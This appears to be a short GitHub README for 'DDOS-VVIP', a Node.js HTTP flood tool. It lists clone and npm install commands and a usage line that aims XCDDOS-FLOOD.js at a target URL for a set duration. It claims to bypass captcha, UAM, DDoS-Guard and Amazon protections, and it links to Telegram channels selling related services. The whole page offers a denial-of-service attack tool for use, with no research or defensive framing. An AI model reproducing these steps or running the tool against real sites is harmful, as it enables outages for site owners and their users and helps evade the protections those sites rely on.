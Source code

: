 # DDOS-VVIP



git clone https://github.com/XinnChan/DDOS-VVIP






install module




apt install npm


npm i cloudscraper


npm i request


npm i child_process

npm i exec


cd && cd DDOS-VVIP


Usage: node XCDDOS-FLOOD.js URL DURATION


example: node XCDDOS-FLOOD.js https://target.com 120





Bypassing Captha, Uam, Rule, Ddos Guard, Amazon, GeoPass

Telegram Channel DDOS: https://t.me/XC_Fixxed
Telegram Channel VPS: https://t.me/Xc_Corporation
Telegram Channel DM: https://t.me/Xin_Kenji
